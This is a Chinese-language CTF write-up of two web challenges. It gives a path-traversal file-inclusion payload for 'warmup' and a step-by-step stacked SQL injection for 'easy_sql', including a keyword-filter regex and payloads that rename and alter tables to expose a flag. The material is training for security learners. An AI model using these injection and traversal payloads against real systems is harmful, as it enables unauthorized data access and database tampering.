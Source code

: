 
## warmup
![[Pasted image 20231209094917.png]]
payload 
```
?file=source.php%253f/../../../../../ffffllllaaaagggg
```

## easy_sql

先添加一个单引号，报错，错误信息如下：

```
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

接着测试–+注释，发现被过滤，然后使用#注释，可行  
用order by语句判断出有两个字段，接着使用union select 爆字段，发现这个时候出现了如下提示：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

发现上面的关键字都被过滤不能使用了，没法进行注入，这个时候尝试一下堆叠注入

现在回到这道题，利用堆叠注入，查询所有数据库：

```
1';show databases;#
```

查询所有表:

```
1';show tables;#
```

查询words表中所有列:

```
1';show columns from words;#
```

查询1919810931114514表中所有列

```
1';show columns from `1919810931114514`;#      (字符串为表名操作时要加反引号)
```


根据两个表的情况结合实际查询出结果的情况判断出words是默认查询的表，因为查询出的结果是一个数字加一个字符串，words表结构是id和data，传入的inject参数也就是赋值给了id

这道题没有禁用rename和alert，所以我们可以采用修改表结构的方法来得到flag  
将words表名改为words1，再将数字名表改为words，这样数字名表就是默认查询的表了，但是它少了一个id列，可以将flag字段改为id，或者添加id字段

```
1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#
```
